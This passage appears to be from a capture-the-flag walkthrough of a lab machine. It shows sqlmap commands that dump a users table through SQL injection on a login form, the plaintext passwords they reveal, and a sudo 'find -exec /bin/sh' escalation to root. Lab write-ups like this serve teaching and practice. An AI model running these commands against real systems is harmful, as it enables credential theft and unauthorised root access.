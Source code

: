 ```shell
sqlmap http://192.168.1.14/auth-login.php --form -D Nebuchadnezzar -T users --columns --batch
```

```shell
Database: Nebuchadnezzar
Table: users
[3 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| id       | int(11)      |
| password | varchar(255) |
| username | varchar(50)  |
+----------+--------------+
```

```shell
sqlmap http://192.168.1.14/auth-login.php --form -D Nebuchadnezzar -T users -C id,password,username --dump --batch
```

```shell
Database: Nebuchadnezzar
Table: users
[2 entries]
+----+--------------------+----------+
| id | password           | username |
+----+--------------------+----------+
| 1  | F4ckTh3F4k3H4ck3r5 | shelly   |
| 2  | cambiame2025       | admin    |
+----+--------------------+----------+
```

We've got the shelly's password. 

Once as shelly we can execute `find` as sudo so lets search in gtfobins and get the root:

```shell
shelly@NexusLabCTF:~/SA$ sudo -l
Matching Defaults entries for shelly on NexusLabCTF:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    env_keep+=LD_PRELOAD, use_pty

User shelly may run the following commands on NexusLabCTF:
    (ALL) NOPASSWD: /usr/bin/find
```

```shell
    sudo find . -exec /bin/sh \; -quit

# id
uid=0(root) gid=0(root) grupos=0(root)
```


